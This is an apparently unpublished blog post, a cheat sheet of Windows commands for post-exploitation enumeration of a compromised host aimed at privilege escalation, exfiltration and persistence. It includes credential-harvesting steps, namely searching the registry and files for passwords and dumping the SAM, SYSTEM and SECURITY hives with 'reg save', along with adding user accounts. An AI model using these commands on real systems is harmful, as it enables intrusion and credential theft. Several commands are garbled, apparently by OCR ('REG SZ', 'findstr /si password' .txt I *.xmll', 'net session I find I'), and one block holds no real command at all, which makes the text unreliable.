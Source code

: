 ```yaml
---
layout: post
published: false
title: Windows Post Exploitation 12.1
---
```

## Windows Post Enumeration

## Introduction

In this blog post we will learn about manual post enumeration techniques to gather information about compromised target in order to Escalate Privileges, Data Exfiltration, Persistent Access.




After compromising a device and having system level access, Now we will gather more information about target system to get the big scope and escalate our privileges.

The very first command to execute

To get system information
~~~
systeminfo
~~~

To get system information remotely
~~~
systeminfo /S <targetIp> /U <domain>\<user> /P <Password>
~~~

To list current user, sid, groups current user is a member of and their sids as well as current privilege level.
~~~
whoami /all
~~~

To get OS Verion
```
ver
```

To show processess and services in system.
~~~
tasklist /svc
~~~

To show all processes & DLLs
~~~
tasklist /m
~~~

To remote process listing
~~~
tasklist /S ip /v
~~~


To show the all environmental variables.
```
set  
```
To look for specific USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE, use `set` with them.
```
set USERPROFILE
```

To show services of system

```
sc query state=all
```
```
net start
```
To search registry for passwords
```
reg query HKLM /f password /t REG SZ /s
```

To list all the currently scheduled tasks that your current user has access to see.
```
schtasks
```

To get more information about a service

~~~
sc getkeyname <service name>                   //It will give you a key
sc queryex <keyname>
~~~


To get all information about workstation

```
net config workstation
```

To display hosts in current domain
```
net view /domain
```

To list all users in current domain
```
net user /domain
```

To add a user

```
net user username password /add
```

To add a user in Administrators
```
Add user to Administrators
```

To check network configurations of system
```
ipconfig /all
```

To display local DNS Cache
```
ipconfig /displaydns
```
To know the listening ports of the system

```
netstat -ani findstr LISTENING
```

To list all open connections
```
netstat -ana
```

To prints the password policy for the domain
```
net accounts /domain
```
To print the members of Administrators local group
```
net localgroup administrators
```

To find active SMB session
```
net session I find I "\\"
```

To search files for password string

```
findstr /si password' .txt I *.xmll *.xls
``` 

To display Domain and DC info
```
wmic ntdomain list
```
To search for services with unquoted paths to binary

```
wmic service get namee,displayname,pathnamee,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```

For finding other networks and static routes that have been put in place
```
route print
```

To find the file match with search string
```
dir \ /s /b | find /I “searchstring
```

**WMI commands**

* wmic bios
* wmic qfe
* wmic qfe get hotfixid (This gets patches IDs)
* wmic startup
* wmic service
* wmic os
* wmic process get caption,executablepath,commandline
* wmic process call create “process_name” (executes a program)
* wmic process where name=”process_name” call terminate (terminates program)
* wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size,
* volumeserialnumber (hard drive information)
* wmic useraccount (usernames, sid, and various security related goodies)
* wmic useraccount get /ALL
* wmic share get /ALL (you can use ? for gets help ! )
* wmic startup list full (this can be a huge list!!!)
* wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about target)

**Reg Command**

* reg save HKLM\Security security.hive (Save security hive to a file)
* reg save HKLM\System system.hive (Save system hive to a file)
* reg save HKLM\SAM sam.hive (Save sam to a file)=
* reg add [\\TargetIPaddr\] [RegDomain][ \Key ]
* reg export [RegDomain]\[Key] [FileName]
* reg import [FileName ]
* reg query [\\TargetIPaddr\] [RegDomain]\[ Key ] /v [Valuename!] (you can to add /s for recurse all values )


## Conclusion

**_We have discussed some commands to gather information about compromised target and the techniques to post emumeration_**
























